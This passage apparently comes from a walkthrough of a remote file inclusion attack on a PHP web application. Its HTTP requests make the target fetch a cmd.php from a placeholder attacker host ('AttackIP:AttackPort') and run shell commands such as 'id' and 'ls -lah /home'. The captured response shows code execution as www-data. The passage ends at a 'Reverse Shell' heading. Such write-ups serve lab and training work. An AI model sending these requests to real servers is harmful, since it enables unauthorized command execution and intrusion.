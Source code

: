 ```bash
Upgrade-Insecure-Requests: 1
Priority: u=0, i

url=http%3A%2F%2FAttackIP%3AAttackPort%2Fcmd.php&cmd=id&submit=Submit+Query
```

<p><em>Response</em></p>

```bash
HTTP/1.1 200 OK
Date: Thu, 17 Jul 2025 xx:xx:xx GMT
Server: Apache/2.4.61 (Debian)
X-Powered-By: PHP/8.3.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 353
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>

  <meta charset="utf-8">
  <title>Your page title here :)</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">

  <link rel="stylesheet" href="css/normalize.css">
  <link rel="stylesheet" href="css/skeleton.css">

</head>
<body>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<br>
<br>

<p>experiment substituting <code>&id</code> by other commands, for example <code>ls -lah /home/</code></p>

<p><em>Request</em></p>

```bash
...
url=http%3A%2F%2FAttackIP%3AAttackPort%2Fcmd.php&cmd=ls%20-lah%20/home&submit=Submit+Query
```

<br>
<br>

<h3>Reverse Shell</h3>
